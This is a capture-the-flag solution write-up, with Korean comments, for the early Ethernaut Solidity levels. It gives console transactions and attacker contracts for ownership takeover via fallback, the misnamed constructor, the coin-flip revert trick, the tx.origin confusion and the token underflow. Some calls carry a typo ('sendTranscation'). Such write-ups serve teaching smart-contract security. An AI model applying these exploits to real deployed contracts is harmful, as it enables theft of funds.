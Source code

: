 # ethernaut-solve
https://ethernaut.openzeppelin.com/

### Hello Ethernaut
```
await contract.authenticate(await contract.address())
```

### Fallback
```
await sendTranscation({from:player, to:contract.address, value:1, data:"0xd7bb99ba"}) // call contribute
await sendTranscation({from:player, to:contract.address, value:1}) // fallback and take owner
await sendTranscation({from:player, to:contract.address, data:"0x3ccfd60b"}) // withdraw
```

### Fallout
낮은 버전 solidity에서 constructor 네이밍 실수
```
await sendTranscation({from:player, to:contract.address, data:"0x6fab5ddf"}) // call Fal1out
```

### Coin Flip
inner tx가 원하는 결과를 반환하지않으면 revert
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlipCaller {
    address public coinFlipAddress = 0x72C860e67CEdfbc8B6Cc2BF9eAf6173be9A758BB;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function callFlip() public {
        bytes memory data = abi.encodeWithSignature("flip(bool)", true);

        (bool success, bytes memory result) = coinFlipAddress.call(data);
        
        if(!abi.decode(result, (bool)) || !success) revert();
    }
}
```

### Telephone
msg.sender = 현재 함수를 직접 호출한 address

tx.origin = 트랜잭션 최초로 호출한 address
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract TakeTelephone {
    address public telephone = 0x209eDa374a2DF5ADA2BDd32797763325865935ce;
    address public newOwner = 0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446;

    function changeOwner() public {
        bytes memory data = abi.encodeWithSignature("changeOwner(address)", newOwner);

        (bool success, bytes memory result) = telephone.call(data);
        
        if(!success) revert();
    }
}
```

### Token
underflow를 활용한 토큰 탈취.
0.8부터는 해당 취약점은 개선됨.
```
const toAddress = '0xdead';
const toAddressPadded = '0'.repeat(24) + toAddress.slice(2).padStart(40, '0');

const value = 21;
const valuePadded = value.toString(16).padStart(64, '0');

const data = "0xa9059cbb" + toAddressPadded + valuePadded;
await sendTransaction({from:player, to:contract.address, data});
```
